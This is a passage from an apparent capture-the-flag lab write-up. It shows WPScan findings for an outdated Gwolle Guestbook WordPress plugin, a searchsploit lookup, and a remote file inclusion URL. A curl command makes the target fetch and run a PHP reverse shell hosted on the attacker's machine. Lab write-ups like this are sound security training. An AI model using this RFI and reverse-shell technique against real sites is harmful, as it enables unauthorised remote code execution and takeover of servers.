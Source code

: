 ```
 | [!] The version is out of date, the latest version is 4.5.0
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.129.85.106/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: Gwolle Guestbook <= 2.5.3 - Cross-Site Scripting (XSS)
 |     Fixed in: 2.5.4
 |     References:
 |      - https://wpscan.com/vulnerability/00c33bf2-1527-4276-a470-a21da5929566
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17884
 |      - https://seclists.org/fulldisclosure/2018/Jul/89
 |      - https://www.defensecode.com/advisories/DC-2018-05-008_WordPress_Gwolle_Guestbook_Plugin_Advisory.pdf
 |      - https://plugins.trac.wordpress.org/changeset/1888023/gwolle-gb
 |
 | [!] Title: Gwolle Guestbook < 4.2.0 - Reflected Cross-Site Scripting
 |     Fixed in: 4.2.0
 |     References:
 |      - https://wpscan.com/vulnerability/e50bcb39-9a01-433f-81b3-fd4018672b85
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24980
 |
 | Version: 2.3.10 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.129.85.106/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.129.85.106/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
```
{% endcode %}

We can search for exploits for these two plugins.&#x20;

```
$ searchsploit gwolle                 
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Incl | php/webapps/38861.txt
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

There was only this to exploit, so let's try it. This exploit works by accessing this link for an RFI:

<pre data-overflow="wrap"><code><strong>http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
</strong></code></pre>

We can grab a PHP reverse shell from PentestMonkey and rename it to `wp-load.php` and use this RFI to execute it.

```bash
$ curl http://10.129.85.109/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.13/
```
